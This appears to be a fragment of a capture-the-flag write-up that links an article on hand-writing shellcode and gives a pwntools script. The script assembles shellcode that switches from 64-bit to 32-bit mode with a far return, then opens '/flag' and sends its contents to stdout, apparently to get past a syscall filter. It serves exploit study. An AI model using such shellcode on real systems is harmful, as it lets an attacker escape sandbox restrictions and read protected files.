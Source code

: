 write shellcode by hand:   
https://www.cnblogs.com/ZIKH26/articles/15845766.html
asm code:   
```
#!/usr/bin/python3
from pwn import *
context(log_level = 'info', arch = 'amd64', os = 'linux')
shellcode=asm('''
mov rsp, 0x1337500
    call to32
    push 0x67
    push 0x616c662f
    mov ebx, esp
    mov ecx, 0
    mov eax, 5
    int 0x80
    mov ebx, 1
    mov ecx, eax  //the return value of last syscall 5 (open) will saved in eax
    mov edx, 0
    mov esi, 0x3e8
    mov eax, 0xbb  //call sendfile from eax to 1(stdout)
    int 0x80
to32:
    mov dword ptr [rsp + 4], 0x23
    retf''')
```

